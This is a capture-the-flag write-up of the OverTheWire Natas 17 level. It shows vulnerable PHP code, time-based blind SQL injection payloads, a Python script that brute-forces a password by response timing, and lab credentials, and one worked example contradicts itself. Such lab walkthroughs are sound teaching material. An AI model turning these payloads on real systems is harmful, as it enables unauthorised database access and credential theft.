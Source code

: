 ```yaml
---
layout: post
title: "OverTheWire: Natas 17"
date: 2016-12-14 12:00:00
share: true
comments: true
tags: overthewire natas
---
```


Continuing with last few challenges' theme, this one is another SQL injection puzzle. Piece of code that matters is the following:

```php
<?  
  
/*  
CREATE TABLE `users` (  
  `username` varchar(64) DEFAULT NULL,  
  `password` varchar(64) DEFAULT NULL  
);  
*/  
  
if(array_key_exists("username", $_REQUEST)) {  
    $link = mysql_connect('localhost', 'natas17', '<censored>');  
    mysql_select_db('natas17', $link);  
      
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";  
    if(array_key_exists("debug", $_GET)) {  
        echo "Executing query: $query<br>";  
    }  
  
    $res = mysql_query($query, $link);  
    if($res) {  
    if(mysql_num_rows($res) > 0) {  
        //echo "This user exists.<br>";  
    } else {  
        //echo "This user doesn't exist.<br>";  
    }  
    } else {  
        //echo "Error in query.<br>";  
    }  
  
    mysql_close($link);  
} else {  
?>   
```

You'll notice a couple of thing:  

  * A table _users_ is created, with 2 fields `username` and `password`.
  * No output is shown for any input you pass.

What options do we have here? We won't be able to show error messages, use union based SQL injection since no output exists. How about [SLEEP()](https://www.pythian.com/blog/mysql-injection-sleep/)? We can force the SQL statement executed to reveal data by answering yes/no questions. 
Let's check first if we're able to use the sleep command and some examples to show how we can utilize it. You can use Fiddler as proxy for Windows or Burpsuite for Linux (or whatever tool that does the job) to observe duration.

  * **Input:** `natas18" and sleep(5) #` 
**Query:** 
```sqlSELECT
SELECT * from users where username="_natas18" and sleep(5) #
```
**Output: **Overall Elapsed:    0:00:05.384  
**Meaning**: User named natas18 exists and sleep(5) was executed.

  * **Input:** `idontexist" and sleep(5) #` 
    **Query:** 
```sql
    SELECT * from users where username="_idontexist" and sleep(5) #_  
```
    **Output:** Overall Elapsed:    0:00:00.372  
    **Meaning**: User named idontexist doesn't exists and sleep(5) was not executed.

  * **Input:**  natas18" and password like binary '%a%' and sleep(5) #`
    **Query:** `SELECT * from users where username="_natas18" and password like binary '%a%' and sleep(5) #`
    **Output:** Overall Elapsed:    0:00:00.359  
    **Meaning**: password for natas18 does not contain the letter 'a' and sleep(5) was not executed.

  * **Input:** `natas18" and password like binary '%d%' and sleep(5) #`
    **Query:** 
```sql
    SELECT * from users where username="_natas18" and password like binary '%a%' and sleep(5) #
```

    **Output: **Overall Elapsed:    0:00:00.359  
    **Meaning**: password for natas18 does contain the letter 'a' and sleep(5) was executed.

Noticed what happened? By asking the right question, you can tell it's a yes/no depending on the request duration!  
  
We'll be using a simple python script to automate the process for us, first by finding the set of characters that exist in password for user natas18 then reconstructing the password.  

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
Auth=HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')  
headers = {'content-type': 'application/x-www-form-urlencoded'}  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
  
for char in allchars:  
        payload = 'username=natas18%22+and+password+like+binary+%27%25{0}%25%27+and+sleep%281%29+%23'.format(char)  
        r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
        if(r.elapsed.seconds >= 1):  
                filteredchars = filteredchars + char  
                print(filteredchars)  
  
print(filteredchars)  
  
for i in range(0,32):  
        for char in filteredchars:  
                payload = 'username=natas18%22%20and%20password%20like%20binary%20\'{0}%25\'%20and%20sleep(1)%23'.format(passwd + char)  
                r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
                if(r.elapsed.seconds >= 1):  
                        passwd = passwd + char  
                        print(passwd)  
                        break  
```

Output:  

```    
d  
dg  
dgh  
dghj  
dghjl  
dghjlm  
dghjlmp  
dghjlmpq  
dghjlmpqs  
dghjlmpqsv  
dghjlmpqsvw  
dghjlmpqsvwx  
dghjlmpqsvwxy  
dghjlmpqsvwxyC  
dghjlmpqsvwxyCD  
dghjlmpqsvwxyCDF  
dghjlmpqsvwxyCDFI  
dghjlmpqsvwxyCDFIK  
dghjlmpqsvwxyCDFIKO  
dghjlmpqsvwxyCDFIKOP  
dghjlmpqsvwxyCDFIKOPR  
dghjlmpqsvwxyCDFIKOPR4  
dghjlmpqsvwxyCDFIKOPR47  
dghjlmpqsvwxyCDFIKOPR470  
dghjlmpqsvwxyCDFIKOPR470  
x  
xv  
xvK  
xvKI  
xvKIq  
xvKIqD  
xvKIqDj  
xvKIqDjy  
xvKIqDjy4  
xvKIqDjy4O  
xvKIqDjy4OP  
xvKIqDjy4OPv  
xvKIqDjy4OPv7  
xvKIqDjy4OPv7w  
xvKIqDjy4OPv7wC  
xvKIqDjy4OPv7wCR  
xvKIqDjy4OPv7wCRg  
xvKIqDjy4OPv7wCRgD  
xvKIqDjy4OPv7wCRgDl  
xvKIqDjy4OPv7wCRgDlm  
xvKIqDjy4OPv7wCRgDlmj  
xvKIqDjy4OPv7wCRgDlmj0  
xvKIqDjy4OPv7wCRgDlmj0p  
xvKIqDjy4OPv7wCRgDlmj0pF  
xvKIqDjy4OPv7wCRgDlmj0pFs  
xvKIqDjy4OPv7wCRgDlmj0pFsC  
xvKIqDjy4OPv7wCRgDlmj0pFsCs  
xvKIqDjy4OPv7wCRgDlmj0pFsCsD  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDj  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP  
```    

  
Natas 18 password is `xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`.
